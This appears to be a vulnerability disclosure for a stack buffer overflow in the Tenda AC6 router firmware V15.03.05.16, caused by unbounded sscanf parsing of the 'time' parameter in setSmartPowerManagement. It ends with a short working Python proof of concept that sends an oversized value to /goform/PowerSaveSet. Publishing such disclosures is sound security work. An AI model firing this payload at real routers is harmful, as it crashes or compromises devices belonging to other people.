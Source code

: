 Tenda AC6 V15.03.05.16 was discovered to contain a stack overflow via the time parameter in the setSmartPowerManagement function.
 
Vulnerability Description

Vendor: Tenda

Product: AC6

Version: V15.03.05.16

Type: Buffer Overflow

Firmware link: https://www.tenda.com.cn/material/show/102661
 
Vulnerability Details

The function "setSmartPowerManagement" retrieves the parameter "time" using "sub_2B7C4", the value of "time" is formatted using the sscanf function with the format "%[^:]:%[^-]-%[^:]:%s". 
This greedy matching mechanism is insecure, as it can cause a stack overflow if the size of the data we enter exceeds the sizes of "v10", "v9", "v8", or "v7".
 ![image](https://github.com/user-attachments/assets/153bb4ab-4d72-4f3d-8366-cc270673bced)

Recurring vulnerabilities and POC

import requests
ip = '192.168.2.3'
url = f'http://{ip}/goform/PowerSaveSet'
payload = {
    "time": '1:00-1:'+'1'*0x500
}
res = requests.post(url=url, data=payload)
print(res.content)
![image](https://github.com/user-attachments/assets/db2201bd-4946-4524-b951-1ce9cc19617c)
